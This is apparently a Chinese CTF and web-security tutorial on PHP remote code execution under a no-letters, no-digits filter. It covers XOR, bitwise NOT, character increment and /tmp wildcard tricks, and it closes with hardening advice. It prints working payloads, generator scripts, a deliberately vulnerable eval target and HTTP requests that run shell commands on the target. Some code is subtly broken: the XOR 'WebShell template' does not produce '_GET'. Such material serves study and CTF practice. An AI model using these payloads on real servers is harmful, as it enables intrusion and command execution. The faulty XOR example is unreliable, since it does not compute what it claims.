


# 🧬 无字母数字 RCE 终极艺术：位运算异或、取反、字符自增与 Linux 通配符破防

> **极限绝境**：后端设置了堪称死局的正则表达式：
> `preg_match('/[a-zA-Z0-9]/', $input)`
> 整个输入中**禁止出现任何英文字母（无论大小写）和阿拉伯数字（0~9）**！
> 在这看似不可能有可执行代码存活的严苛过滤下，攻击者如何仅凭标点符号与特殊字符，在解释器与操作系统层构造出功能完备的 WebShell？

---

## 0. 基础前置认知与小白扫盲：没有英文字母，怎么写出 `system('whoami')`？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 计算机的物理真相：所有字符本质都是纯二进制数字
* 很多初学者面对“无字母数字 RCE”感到不可思议：既然拦截了所有 `a-z`、`A-Z`、`0-9`，我们敲键盘连一个单词都敲不出来，怎么可能执行命令？
* **请牢记底层真相**：在 CPU 和内存眼里，根本没有英文字母 `'a'` 或单词 `'system'`，**所有的字符本质上都只是一串 8 位二进制字节（Byte）**！
  * 字符 `'A'` 在 ASCII 码中是 65，二进制是 `01000001`；
  * 标点符号 `'!'` 在 ASCII 码中是 33，二进制是 `00100001`。
* 既然它们只是二进制数字，我们就可以用纯粹的**数学运算（按位异或 `^`、按位取反 `~`）**，用两个完全不是英文字母的标点符号，在内存里计算出一个全新的英文字母！

---

### 2. 算术魔法逐一拆解
* **按位异或（`^`，异或拼字术）**：
  * 异或规则：相同为 0，不同为 1。
  * 举例：标点符号 `'('`（二进制 `00101000`）与标点符号 `'='`（二进制 `00111101`）做异或运算：
    $$00101000 \oplus 00111101 = 00010101$$
  * 只要精心挑选两个允许输入的标点符号，任何一个 ASCII 英文字母都可以被无中生有地“算”出来！
* **按位取反（`~`，黑洞倒影术）**：
  * 取反规则：0 变 1，1 变 0。
  * 在 PHP 7 中，如果对不可见字符或特定多字节字符取反，例如 `~'\x8c\x86'`，取反后直接还原为英文字符串！
* **变量自增魔法（`$_='a'; $_++;`）**：
  * 在 PHP 弱类型语法中，对字符变量执行自增运算 `++`，PHP 会自动按照字母表向后推导：`'a'++` 变成 `'b'`，`'b'++` 变成 `'c'`……
  * 只要设法通过某种方式拿到一个字母 `'a'`，就能靠不断自增拼出整个英文 26 字母字典！

---

## 一、四大非字母数字构造流派全景图



---

## 二、流派一：位运算异或（XOR `^`）

### 1. 核心数学与底层原理
* 在底层，所有字符均对应特定的 ASCII 二进制字节。
* 异或（XOR）运算满足可逆律：$A \oplus B = C \iff A \oplus C = B$。
* 只要找到两个**非字母非数字的特殊符号**（如 `@`, `_`, `~`, `?`, `!`, `^`），使其二进制按位异或的结果恰好等于目标字母的 ASCII 码，即可在不使用任何字母的情况下凭空拼出目标函数！

#### 🧮 实例推导：生成大写字母 `'A'`
* 字符 `'?'` 的 ASCII 为 `0x3F`，二进制：`0011 1111`
* 字符 `'~'` 的 ASCII 为 `0x7E`，二进制：`0111 1110`
* 按位异或：
  $$\begin{aligned}
  \text{'?'} &: \texttt{0011 1111} \\
  \oplus \ \text{'~'} &: \texttt{0111 1110} \\
  \hline
  \text{结果} &: \texttt{0100 0001} \ (\text{ASCII } 0x41 \Rightarrow \mathbf{'A'})
  \end{aligned}$$
* 在 PHP 中直接执行：`("?" ^ "~")`，其输出结果正是 `'A'`！

---

### 2. 构造 `$_GET[1]($_GET[2])` 的异或 Payload 自动化生成脚本

通过 Python 自动化遍历可打印标点符号集合，找到异或解：

```python
# python3 xor_generator.py
import urllib.parse

def get_xor(target_str):
    chars = '!@#$%^&*()_+-=[]{}|;:,.<>/?~`"\'\\'
    part1 = ""
    part2 = ""
    for ch in target_str:
        found = False
        for c1 in chars:
            for c2 in chars:
                if ord(c1) ^ ord(c2) == ord(ch):
                    part1 += c1
                    part2 += c2
                    found = True
                    break
            if found:
                break
    return part1, part2

# 构造 _GET
p1, p2 = get_xor("_GET")
print(f'("{urllib.parse.quote(p1)}"^"{urllib.parse.quote(p2)}")')
```

#### 生成的免杀 WebShell 模板：
```php
$_ = ("!#%*" ^ "~@^~");  // 异或计算出 "_GET"
$$_[_](...);             // 等价于 $_GET['_']($_GET['__'])
```

---

## 三、流派二：位运算取反（NOT `~`）

### 1. 核心原理（PHP 7 环境神技）
* 在 PHP 7 之后，动态函数调用的语法灵活性极高：`(~"\x8c\x86\x8c\x8b\x9a\x92")(..)` 会在求值后直接作为函数名执行。
* 单字节高位字符（`0x80` ~ `0xFF`，不在 ASCII 字母数字范围内）进行按位取反（`~`），会翻转二进制位，恰好命中 ASCII 可打印英文字符！

#### 🧮 运算推导：生成字符串 `"system"`
* `~'s'` $\iff \sim \texttt{0x73} = \texttt{0x8C}$
* `~'y'` $\iff \sim \texttt{0x79} = \texttt{0x86}$
* `~'s'` $\iff \sim \texttt{0x73} = \texttt{0x8C}$
* `~'t'` $\iff \sim \texttt{0x74} = \texttt{0x8B}$
* `~'e'` $\iff \sim \texttt{0x65} = \texttt{0x9A}$
* `~'m'` $\iff \sim \texttt{0x6D} = \texttt{0x92}$

拼接在一起得到十六进制串：`\x8c\x86\x8c\x8b\x9a\x92`。对其取反：
```php
(~"\x8c\x86\x8c\x8b\x9a\x92")("cat /flag");
```
* **WAF 视角**：没有任何 ASCII 字母与数字，只是一堆带 `~` 的不可打印字节，直接放行！
* **PHP 7 解释器视角**：运行时立即求反并解出 `"system"`，触发命令执行！

---

## 四、流派三：PHP 弱类型与字符自增（`++`）

### 1. 核心原理
在 PHP 中，字符变量支持与 C 语言类似的自增运算：
* 若 `$a = 'a'; $a++;`，则 `$a` 变为 `'b'`。
* 若 `$a = 'z'; $a++;`，则 `$a` 变为 `'aa'`。

### 2. 纯符号“从无到有”推导出完整字母表四步法



#### 完整推导演示代码：
```php
<?php
$_ = [];                // 这是一个空数组
$_ = "$_";              // 弱类型强制转换，得到字符串 "Array"
$_ = $_['!'];           // 取下标 '!'，等同于下标 0，提取第一个字符：'A'

$__ = $_;               // $__ = 'A'
$__++;                  // $__ 递增变为 'B'
$__++;                  // $__ 递增变为 'C'
// 通过不断赋值并自增，可以在内存中拼装出任意函数名（如 "SYSTEM" / "ASSERT"）！
```

---

## 五、流派四：Linux 通配符执行临时文件（`/???/????????[@-[]`）

当目标是直接执行系统 Shell 命令，而 Shell 命令过滤了所有的字母和数字时，如何破防？

### 1. PHP 临时文件机制
* 当客户端向任意 PHP 页面发起 `multipart/form-data` 形式的 POST 文件上传请求时，**无论目标 PHP 脚本是否有接收文件的代码，PHP 引擎都会自动在 Linux 的 `/tmp` 目录下创建一个临时缓存文件**！
* 该临时文件的命名格式固定为：`/tmp/phpXXXXXX`（后 6 位随机，包含**大写字母**、小写字母与数字）。

---

### 2. ASCII 字符集范围匹配（`[@-[]`）精妙剖析

#### 语法逐字符拆解：
| 语法片段 | 匹配与执行语义 |
| :--- | :--- |
| **`.`** | Linux Shell 内置命令 `source` 的简写形式。**表示读取目标文件内容并在当前 Shell 环境中逐行执行** |
| **`/???/`** | 匹配根目录下名称为 **3 个字符** 的目录（精准命中 `/tmp/`，因为 `/etc/`, `/var/`, `/dev/` 字符数不同或无写权限） |
| **`????????`** | 匹配 `/tmp/` 目录下文件名长度为 8 到 9 个字符的实体 |
| **`[@-[]`** | **核心杀招：ASCII 字符集范围匹配**。在 ASCII 码表中：<br>ASCII `0x40` 为 `@`<br>ASCII `0x41` ~ `0x5A` 为大写字母 `A` 到 `Z`<br>ASCII `0x5B` 为 `[`<br>因此 `[@-[]` **专门用于匹配所有大写字母**！ |

#### 为什么必须用 `[@-[]`？
Linux 系统在 `/tmp/` 目录下经常存在其他守护进程创建的临时文件（如 `systemd-private...`、`sess_...` 等），这些文件通常全小写。
而 PHP 生成的临时文件名为 `/tmp/phpXXXXXX`，其随机后缀末位大概率是大写字母！
通过 `/???/????????[@-[]`，可以**精确筛选并命中刚刚上传的那个包含恶意 Bash 脚本的 PHP 临时文件**，直接触发命令执行！

---

## 六、CTF 实战靶场案例复现

### 靶场代码（极致无字母数字限制）：
```php
<?php
highlight_file(__FILE__);

if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (preg_match('/[0-9a-zA-Z]/', $c)) {
        die("WAF: No Letters, No Numbers!");
    }
    eval($c);
}
?>
```

### 1. 利用方案一：PHP 7 取反直通 RCE
将 `system('cat /flag')` 进行单字节取反编码：
```python
# 生成取反 URL 编码
def url_not(s):
    return "".join(["%" + hex(~ord(c) & 0xFF)[2:].zfill(2) for c in s])

print("(~" + url_not("system") + ")(~" + url_not("cat /flag") + ");")
```
输出结果：
```php
(~%8c%86%8c%8b%9a%92)(~%9c%9e%8b%df%d0%99%93%9e%98);
```

#### HTTP 请求验证：
```http
GET /index.php?c=(~%8c%86%8c%8b%9a%92)(~%9c%9e%8b%df%d0%99%93%9e%98); HTTP/1.1
Host: ctf.challenge.local
User-Agent: Mozilla/5.0

HTTP/1.1 200 OK

flag{n0n_alphanumeric_rce_byp4ss_m4st3r!}
```

---

### 2. 利用方案二：Shell 临时文件上传 + 通配符执行
如果靶机禁用了高危函数，但允许反引号 `` ` `` 或系统执行：

#### 发送带文件上传的多部分表单请求：
```http
POST /index.php?c=?><?=`.+/???/????????[@-[]`;?> HTTP/1.1
Host: ctf.challenge.local
Content-Type: multipart/form-data; boundary=---------------------------892347891234
Content-Length: 260

-----------------------------892347891234
Content-Disposition: form-data; name="file"; filename="poc.txt"
Content-Type: text/plain

#!/bin/sh
cat /flag > /var/www/html/flag.txt
-----------------------------892347891234--
```
* **执行效果**：通过反引号调用系统 Shell，命中并执行 `/tmp/phpXXXXXX` 脚本，将 Flag 转移至 Web 根目录实现获取！

---

## 🔗 相关双向链接
- 上级模块：[[04-命令执行与代码执行RCE]]
- 前置基础：[[02-空格与敏感字符绕过（IFS、花括号、变量拼接、通配符）]]
- 极限突破：[[04-极限制字符长度突破（15字符、7字符、4字符RCE实战）]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]

---
## 纵深防御与安全加固基线

> [!IMPORTANT]
> **非字母数字攻击的防御之道**：试图在 WAF 里枚举各种异或字符的组合是徒劳的，必须在语言运行时和操作系统层进行硬核封锁：

1. **在 `php.ini` 中全面禁用高危执行函数（`disable_functions`）**：
   * 绝大多数企业级 Web 业务根本不需要在页面中动态调用系统 Shell。必须在配置中列入全面黑名单：
   ```ini
   disable_functions = system, exec, shell_exec, passthru, proc_open, popen, pcntl_exec, dl, chroot, chgrp, chown, putenv, ini_alter, ini_restore
   ```
   * 同时禁用动态代码执行函数（在 PHP 7+ 中禁用 `assert` 执行代码特性）。

2. **部署基于底层 Hook 的 RASP 运行时自我防护**：
   * 部署新一代 RASP（应用运行时自我保护，如 OpenRASP），直接下潜至 PHP 内核底层的 `zend_execute` 与 C 语言库函数 `popen` / `execve` 级别进行 Hook。
   * **防御优势**：无论上层代码经过了多少层数学异或、取反变形、变量自增拼装，当代码最终在 CPU 中被解析执行时，其底层必然会调用系统进程创建接口。RASP 在底层拦截并分析调用栈，发现无业务关联的异常进程直接就地熔断并告警！

3. **生产环境容器镜像只读部署（Read-Only Filesystem）**：
   * 采用云原生安全基线，容器启动时开启只读根文件系统：`docker run --read-only ...`；
   * 代码目录完全只读，配合文件完整性监控 Agent（HIDS），一旦有异常脚本试图通过临时目录（`/tmp`）写入并被解析，立刻切断网络连接并报警。
